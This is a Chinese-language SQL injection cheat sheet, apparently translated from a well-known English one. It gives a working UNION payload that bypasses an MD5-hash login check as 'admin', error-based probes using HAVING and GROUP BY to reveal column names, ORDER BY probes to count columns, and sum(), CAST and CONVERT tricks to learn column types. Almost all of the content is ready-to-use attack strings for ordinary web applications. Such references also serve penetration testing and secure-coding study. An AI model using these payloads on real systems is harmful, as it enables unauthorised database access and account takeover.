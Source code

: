 ### 绕过检查MD5哈希的登陆界面

如果应用是先通过用户名，读取密码的MD5，然后和你提供的密码的MD5进行比较，那么你就需要一些额外的技巧才能绕过验证。你可以把一个已知明文的MD5哈希和它的明文一起提交，使得程序不使用从数据库中读取的哈希，而使用你提供的哈希进行比较。

#### 绕过MD5哈希检查的例子(MSP)

> 用户名：`admin`
> 
> 密码：`1234 ' AND 1=0 UNION ALL SELECT 'admin','81dc9bdb52d04dc20036dbd8313ed055`

其中`81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)`

### 基于错误(Error Based)-探测字段名

#### 使用`HAVING`来探测字段名(S)

*   `' HAVING 1=1 --`
*   `' GROUP BY table.columnfromerror1 HAVING 1=1 --`
*   `' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 --`
*   ……
*   `' GROUP BY table.columnfromerror1, columnfromerror2,columnfromerror(n) HAVING 1=1 --`
*   直到它不再报错，就算搞定了

#### 在`SELECT`查询中使用`ORDER BY`探测字段数(MSO+)

通过ORDER BY来探测字段数能够加快union注入的速度。

*   `ORDER BY 1--`
*   `ORDER BY 2--`
*   ……
*   `ORDER BY N--`
*   一直到它报错为止，最后一个成功的数字就是字段数。

### 数据类型、UNION、之类的

**提示：**

*   经常给**UNION**配上**ALL**使用，因为经常会有相同数值的字段，而缺省情况下UNION都会尝试返回唯一值(records with distinct)
*   如果你每次查询只能有一条记录，而你不想让原本正常查询的记录占用这宝贵的记录位，你可以使用`-1`或者根本不存在的值来搞定原查询（前提是注入点在WHERE里）。
*   在UNION中使用NULL，对于大部分数据类型来说这样都比瞎猜字符串、日期、数字之类的来得强
    *   盲注的时候要小心判断错误是来自应用的还是来自数据库的。因为像ASP.NET就经常会在你使用NULL的时候抛出错误（因为开发者们一般都没想到用户名的框中会出现NULL）

#### 获取字段类型

*   `' union select sum(columntofind) from users--`(S)
    
    `Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a **varchar** data type as an argument.`如果没有返回错误说明字段是**数字类型**
    
*   同样的，你可以使用`CAST()`和`CONVERT()`
    
    *   `SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL--`
*   `11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-`
    